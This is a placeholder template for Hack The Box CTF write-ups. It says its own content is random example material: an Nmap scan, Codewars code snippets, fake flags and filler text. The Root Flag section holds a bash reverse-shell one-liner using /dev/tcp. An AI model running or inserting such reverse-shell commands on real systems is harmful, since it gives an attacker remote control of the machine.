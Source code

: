```yaml
---
title: "Hack The Box - TEMTPLATE TEST POST"
author: narkopolo
date: "2022-07-31"
subject: "HTB Writeup"
keywords: [HTB, CTF, Hack The Box, Security]
lang: "en"
titlepage: true
title-page-color: "141d2b"
titlepage-rule-color: "11b925"
titlepage-text-color: "FFFFFF"
toc: true
toc-own-page: true
titlepage-background: "./images/bg.pdf"
...
```



*Everything below is just random stuff for the sake of example.*

# Information Gathering

## Nmap
We begin our reconnaissance by running an Nmap scan checking default scripts and testing for vulnerabilities.

```console
x@wartop:~$ nmap -sVC 192.168.100.6

Starting Nmap 7.01 ( https://nmap.org ) at 2019-08-11 08:57 PDT
Nmap scan report for 192.168.100.6 (192.168.100.1)
Host is up (0.022s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.9 (protocol 2.0)
53/tcp  open  domain
81/tcp  open  http     Apache httpd
|_http-server-header: Apache
444/tcp open  ssl/http Apache httpd
|_http-server-header: Apache
| ssl-cert: Subject: commonName=192.168.100.6
| Not valid before: 2018-07-06T14:40:08
|_Not valid after:  4756-06-01T14:40:08

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 201.22 seconds
```
From the above output we can see that ports, **22**, **53**, **81**, and **444** are the ports open. This is just an example to show code formatting so who cares.

Look  here's an image of my website, this is how you format an image.

![My Website](htb-boxname/ryankozak.com.png)
\ **Figure 1:** My Website


![Github](htb-boxname/github.png)
\ **Figure 2:** Github Profile

Maybe we want to show some python code too, to let's take a look at a snipped from [codewars](https://www.codewars.com) to format time as human readable.

```python
def make_readable(seconds):        

    hours = seconds / 60**2
    minutes = seconds/60 - hours*60
    seconds = seconds - hours*(60**2) - minutes*60

    return '%02d:%02d:%02d' % (hours, minutes, seconds)
```


# Exploitation  

In order to gain our initial foothold we need to blablablabla. Here's another code snippet just for fun.

```php
function sqInRect($lng, $wdth) {

    if($lng == $wdth) {
      return null;
    }

    $squares = array();

    while($lng*$wdth >= 1) {
      if($lng>$wdth) {
        $base = $wdth;
        $lng = $lng - $base;
      }
      else {
        $base = $lng;
        $wdth = $wdth - $base;
      }
      array_push($squares, $base);
    }
    return $squares;
}
```
Above is the php code for the **Rectangle into Squares** kata solution from codewars.


## User Flag

In order to get the user flag, we simply need to use `cat`, because this is a template and not a real writeup!

```
x@wartop:~$ cat user.txt
6u6baafnd3d54fc3b47squhp4e2bhk67
```

## Root Flag

The privilege escalation for this box was not hard, because this is an example and I've got sudo password. Here's some code to call a reverse shell `bash -i >& /dev/tcp/127.0.0.1/4444 0>&1`.


![Root](htb-boxname/root.png)
\ **Figure 3:** root.txt v5gw5zkh8rr3vmye7p4ka


# Conclusion
In the conclusion sections I like to write a little bit about how the box seemed to me overall, where I struggled, and what I learned.

# References
1. [https://ryankozak.com/how-i-do-my-ctf-writeups/](https://ryankozak.com/how-i-do-my-ctf-writeups/)
2. [https://github.com/Wandmalfarbe/pandoc-latex-template](https://github.com/Wandmalfarbe/pandoc-latex-template)
3. [https://hackthebox.eu](https://hackthebox.eu)
4. [https://forum.hackthebox.eu](https://forum.hackthebox.eu)
